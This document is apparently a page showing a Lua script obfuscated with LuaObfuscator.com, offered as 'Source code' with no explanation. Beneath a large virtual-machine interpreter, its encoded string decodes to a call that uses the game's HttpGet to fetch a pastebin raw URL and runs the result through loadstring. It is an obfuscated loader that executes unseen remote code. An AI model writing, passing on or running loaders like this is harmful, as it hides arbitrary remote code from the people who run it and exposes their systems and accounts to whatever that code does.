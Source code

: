 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then v19=v0(v3(v30,1,1));return "";else local v84=v2(v0(v30,16));if v19 then local v116=v5(v84,v19);v19=nil;return v116;else return v84;end end end);local function v20(v31,v32,v33) if v33 then local v85=0 -0 ;local v86;while true do if (v85==(0 -0)) then v86=(v31/(2^(v32-1)))%(((3 + 0) -1)^(((v33-(1 + 0)) -(v32-(878 -(282 + 595)))) + (1638 -(1523 + 26 + 88)))) ;return v86-(v86%1) ;end end else local v87=0 -(957 -(892 + 65)) ;local v88;while true do if (v87==(619 -((1323 -768) + 64))) then v88=(1067 -(68 + 997))^(v32-(932 -(857 + 74))) ;return (((v31%(v88 + v88))>=v88) and ((6 -2) -3)) or (568 -(367 + 201)) ;end end end end local function v21() local v34=v1(v16,v18,v18);v18=v18 + 1 ;return v34;end local function v22() local v35,v36=v1(v16,v18,v18 + (3 -1) );v18=v18 + (352 -(87 + 263)) ;return (v36 * (436 -(67 + 113))) + v35 ;end local function v23() local v37,v38,v39,v40=v1(v16,v18,v18 + 3 + 0 );v18=v18 + (9 -5) ;return (v40 * (12338840 + 4438376)) + (v39 * 65536) + (v38 * (1017 -761)) + v37 ;end local function v24() local v41=v23();local v42=v23();local v43=953 -(802 + 150) ;local v44=(v20(v42,2 -1 ,20) * (((4 -1) -1)^32)) + v41 ;local v45=v20(v42,16 + 5 ,1028 -(915 + 82) );local v46=((v20(v42,90 -(185 -127) )==((439 -(145 + 293)) + 0)) and  -(1 -0)) or (1188 -(1069 + 118)) ;if (v45==(0 -0)) then if (v44==(0 -0)) then return v46 * 0 ;else v45=1 + (430 -(44 + 386)) ;v43=(1486 -(998 + 488)) -0 ;end elseif (v45==(646 + 1385 + 14 + 2)) then return ((v44==0) and (v46 * ((792 -(368 + 423))/(0 -0)))) or (v46 * NaN) ;end return v8(v46,v45-(1041 -(10 + 8)) ) * (v43 + (v44/((7 -5)^((213 + 281) -(416 + 26))))) ;end local function v25(v47) local v48=772 -(201 + 571) ;local v49;local v50;while true do if (v48==(1140 -(116 + 1022))) then v50={};for v117=1, #v49 do v50[v117]=v2(v1(v3(v49,v117,v117)));end v48=12 -9 ;end if ((1 + 1 + 1)==v48) then return v6(v50);end if (v48==(3 -2)) then v49=v3(v16,v18,(v18 + v47) -(3 -2) );v18=v18 + v47 ;v48=861 -(814 + 45) ;end if (v48==(0 -0)) then v49=nil;if  not v47 then v47=v23();if (v47==0) then return "";end end v48=1;end end end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v51=(function() return function(v89,v90,v91,v92,v93,v94,v95,v96) local v89=(function() return 0;end)();local v90=(function() return;end)();local v91=(function() return;end)();while true do if (v89~= #"\\") then else if (v90== #"\\") then v91=(function() return v92()~=0 ;end)();elseif (v90==(8 -6)) then v91=(function() return v93();end)();elseif (v90== #"asd") then v91=(function() return v94();end)();end v95[v96]=(function() return v91;end)();break;end if (v89==(1990 -(582 + 1408))) then local v124=(function() return 0;end)();local v125=(function() return;end)();while true do if ((0 -0)~=v124) then else v125=(function() return 1518 -(1191 + 327) ;end)();while true do if (v125==(0 + 0)) then v90=(function() return v92();end)();v91=(function() return nil;end)();v125=(function() return 3 -2 ;end)();end if (v125==(1825 -(1195 + 629))) then v89=(function() return  #",";end)();break;end end break;end end end end return v89,v90,v91,v92,v93,v94,v95,v96;end;end)();local v52=(function() return function(v97,v98,v99,v100,v101,v102,v103,v104,v105) local v106=(function() return 0 -0 ;end)();local v97=(function() return;end)();local v98=(function() return;end)();while true do local v115=(function() return 698 -(208 + 490) ;end)();while true do if (v115~=(0 + 0)) then else if (v106==1) then local v126=(function() return 0;end)();while true do if (v126~=(0 + 0)) then else while true do if (v97~=(780 -(162 + 618))) then else v98=(function() return v99();end)();if (v100(v98, #"~", #"}")~=(0 + 0)) then else local v176=(function() return 0;end)();local v177=(function() return;end)();local v178=(function() return;end)();local v179=(function() return;end)();while true do if (v176==(839 -(660 + 176))) then if (v100(v178, #"19(", #"19(")~= #",") then else v179[ #"xnxx"]=(function() return v103[v179[ #"http"]];end)();end v104[v105]=(function() return v179;end)();break;end if ((3 -1)~=v176) then else if (v100(v178, #"}", #"}")== #"{") then v179[1 + 1 ]=(function() return v103[v179[204 -(14 + 188) ]];end)();end if (v100(v178,1638 -(1373 + 263) ,1002 -(451 + 549) )~= #"}") then else v179[ #"xxx"]=(function() return v103[v179[ #"xnx"]];end)();end v176=(function() return 1 + 2 ;end)();end if (v176~=(676 -(534 + 141))) then else local v181=(function() return 0 + 0 ;end)();while true do if ((0 + 0)~=v181) then else v179=(function() return {v101(),v101(),nil,nil};end)();if (v177==0) then local v185=(function() return 0 -0 ;end)();local v186=(function() return;end)();while true do if (v185==(0 -0)) then v186=(function() return 0 -0 ;end)();while true do if ((341 -(218 + 123))==v186) then v179[ #"-19"]=(function() return v101();end)();v179[ #".dev"]=(function() return v101();end)();break;end end break;end end elseif (v177== #"[") then v179[ #"xxx"]=(function() return v102();end)();elseif (v177==2) then v179[ #"91("]=(function() return v102() -((1583 -(1535 + 46))^16) ;end)();elseif (v177~= #"19(") then else local v191=(function() return 0 + 0 ;end)();local v192=(function() return;end)();while true do if ((0 + 0)~=v191) then else v192=(function() return 0;end)();while true do if (v192~=0) then else v179[ #"xxx"]=(function() return v102() -((2 + 0)^(412 -(115 + 281))) ;end)();v179[ #"xnxx"]=(function() return v101();end)();break;end end break;end end end v181=(function() return 2 -1 ;end)();end if ((1 + 0)==v181) then v176=(function() return 2;end)();break;end end end if (v176==(0 -0)) then v177=(function() return v100(v98,2 + 0 , #"asd");end)();v178=(function() return v100(v98, #".com",6);end)();v176=(function() return 1468 -(899 + 568) ;end)();end end end break;end end return v97,v98,v99,v100,v101,v102,v103,v104,v105;end end end if (v106~=(0 + 0)) then else v97=(function() return 0 -0 ;end)();v98=(function() return nil;end)();v106=(function() return 2 -1 ;end)();end break;end end end end;end)();local v53=(function() return function(v107,v108,v109) local v110=(function() return 0 -0 ;end)();local v111=(function() return;end)();while true do if (v110~=(867 -(550 + 317))) then else v111=(function() return 0 -0 ;end)();while true do if (v111~=(0 -0)) then else local v127=(function() return 0;end)();while true do if (v127~=(0 + 0)) then else local v168=(function() return 0 -0 ;end)();while true do if (v168==(285 -(134 + 151))) then v107[v108-#"}" ]=(function() return v109();end)();return v107,v108,v109;end end end end end end break;end end end;end)();local v54=(function() return {};end)();local v55=(function() return {};end)();local v56=(function() return {};end)();local v57=(function() return {v54,v55,nil,v56};end)();local v58=(function() return v23();end)();local v59=(function() return {};end)();for v67= #"|",v58 do FlatIdent_7DD24,Type,Cons,v21,v24,v25,v59,v67=(function() return v51(FlatIdent_7DD24,Type,Cons,v21,v24,v25,v59,v67);end)();end v57[ #"gha"]=(function() return v21();end)();for v68= #" ",v23() do FlatIdent_C460,Descriptor,v21,v20,v22,v23,v59,v54,v68=(function() return v52(FlatIdent_C460,Descriptor,v21,v20,v22,v23,v59,v54,v68);end)();end for v69= #"|",v23() do v55,v69,v28=(function() return v53(v55,v69,v28);end)();end return v57;end local function v29(v61,v62,v63) local v64=v61[(3 -1) -1 ];local v65=v61[1 + 1 ];local v66=v61[1027 -(706 + 93 + 225) ];return function(...) local v70=v64;local v71=v65;local v72=v66;local v73=v27;local v74=1252 -(367 + 354 + 530) ;local v75= -(1272 -(945 + 326));local v76={};local v77={...};local v78=v12("#",...) -(2 -(1 + 0)) ;local v79={};local v80={};for v112=0 + 0 ,v78 do if ((v112>=v72) or (4182>4845)) then v76[v112-v72 ]=v77[v112 + (701 -(271 + 429)) ];else v80[v112]=v77[v112 + 1 + 0 ];end end local v81=(v78-v72) + (1501 -(1408 + 92)) ;local v82;local v83;while true do v82=v70[v74];v83=v82[1087 -(461 + 625) ];if ((2322<=3546) and (v83<=(1291 -(993 + 295)))) then if (v83<=((2 -1) + 0)) then if (v83==0) then v80[v82[1173 -(418 + (1930 -1177)) ]]();else local v128=(1551 -(1126 + 425)) + (405 -(118 + 287)) ;local v129;local v130;local v131;local v132;while true do if (v128==(1 + 1)) then for v172=v129,v75 do v132=v132 + 1 ;v80[v172]=v130[v132];end break;end if ((1 + 0)==v128) then v75=(v131 + v129) -(1 + 0) ;v132=529 -(406 + 123) ;v128=1771 -(1749 + 20) ;end if (v128==(0 + 0)) then v129=v82[2];v130,v131=v73(v80[v129](v13(v80,v129 + 1 ,v82[1325 -(1249 + 73) ])));v128=1 + 0 ;end end end elseif ((v83>(1147 -((1826 -1360) + 679))) or (2082==4773)) then local v133;local v134,v135;local v136;local v137;v80[v82[4 -2 ]]={};v74=v74 + ((1123 -(118 + 1003)) -1) ;v82=v70[v74];v80[v82[1902 -(106 + 1794) ]]=v63[v82[(2 -1) + 2 ]];v74=v74 + (378 -(142 + 235)) + 0 ;v82=v70[v74];v80[v82[2]]=v63[v82[3]];v74=v74 + (2 -1) ;v82=v70[v74];v137=v82[(22 -17) -3 ];v136=v80[v82[117 -(4 + 110) ]];v80[v137 + (585 -(57 + 527)) ]=v136;v80[v137]=v136[v82[1431 -(41 + 1386) ]];v74=v74 + (104 -(17 + 86)) ;v82=v70[v74];v80[v82[2 + 0 ]]=v82[6 -3 ];v74=v74 + (2 -1) ;v82=v70[v74];v137=v82[168 -(122 + 44) ];v134,v135=v73(v80[v137](v13(v80,v137 + (1 -0) ,v82[9 -6 ])));v75=(v135 + v137) -(1 + 0) ;v133=0 + 0 ;for v158=v137,v75 do v133=v133 + 1 + 0 ;v80[v158]=v134[v133];end v74=v74 + (1 -0) ;v82=v70[v74];v137=v82[67 -((1007 -(553 + 424)) + 35) ];v80[v137]=v80[v137](v13(v80,v137 + 1 ,v75));v74=v74 + 1 + 0 ;v82=v70[v74];v80[v82[1259 -(1043 + 214) ]]();v74=v74 + (3 -2) ;v82=v70[v74];do return;end else v80[v82[1214 -(323 + (1680 -791)) ]]={};end elseif (v83<=5) then if ((3244>1055) and (v83>(10 -6))) then v80[v82[582 -(319 + 42 + 219) ]]=v82[323 -(53 + 267) ];else local v156=0 + 0 + 0 ;local v157;while true do if ((v156==(413 -(15 + 398))) or (3313<=1778)) then v157=v82[984 -(18 + 964) ];v80[v157]=v80[v157](v13(v80,v157 + ((2 + 1) -2) ,v75));break;end end end elseif ((v83<=6) or (1421>=2104)) then do return;end elseif (v83==(5 + 2)) then v80[v82[2 + 0 ]]=v63[v82[3]];else local v163=v82[852 -(9 + 11 + 830) ];local v164=v80[v82[2 + 1 + 0 ]];v80[v163 + (127 -(116 + 10)) ]=v164;v80[v163]=v164[v82[1 + 3 ]];end v74=v74 + (739 -(542 + 196)) ;end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403213Q00682Q7470733A2Q2F706173746562696E2E636F6D2F7261772F747A673455454B6900094Q00037Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);
